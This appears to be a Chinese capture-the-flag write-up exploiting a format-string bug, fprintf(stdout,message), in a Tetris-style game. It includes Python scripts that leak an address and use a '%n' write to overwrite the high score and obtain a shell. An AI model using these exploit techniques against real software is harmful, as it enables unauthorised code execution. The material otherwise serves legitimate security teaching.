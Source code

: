 2. 实时显示留言功能：读取 msg 文件，打印留言，其中 fprintf(stdout,message)存在漏洞

```
    /* 实时显示留言 */
    fmsg = fopen("./msg","r+");
    if (NULL == fmsg) exit(0);
    char message[0x100] = {0};
    fread(message,0x80,1,fmsg);
    fprintf(stdout,"\033[22;1H 留言:");
    fprintf(stdout,message);
```

3. 消除方块功能：更新最高分数，将最高分写入 record 文件

```
void checkDeleteLine(void)
{
// ...
            /* 记录最高分 */
            if (score > maxScore)
            {
                maxScore = score;
                /* 保存最高分 */
                rewind(fp);
                fprintf(fp,"%u\n",maxScore);
            }
//...
```

鲁迅曾经说过：

> 一切皆文件

所以上述代码的浏览主要以 msg 和 record 这两个文件为线索。

现在思路就很明朗了，通过格式化字符串漏洞修改 maxScore，消除一行方块，触发历史记录更新，改写 record 文件，重新开始游戏，getshell。

>关于文件权限，可以通过 ls -al 查看：
>msg 可读可写，record 可读，只有运行 els 程序时可写


由于开了地址随机化，maxScore 的地址不固定，但是这在格式化字符串漏洞面前都不是事儿，先泄漏，再改写即可。exp 如下：

leak.py

```
#!/usr/bin/python
payload = "%73$p"
f = open('/home/ctf/msg','w')
f.write(payload)
f.close()
```

exp.py

```
#!/usr/bin/python
from struct import pack
from sys import argv

start = eval(argv[1])
score = start-0x1180+0x53ac

# hex(666666) = 0xa2c2a
payload = "%20c%8$n" + pack('<Q', score+2)
print hex(score)
f = open('/home/ctf/msg','w')
f.write(payload)
f.close()
```
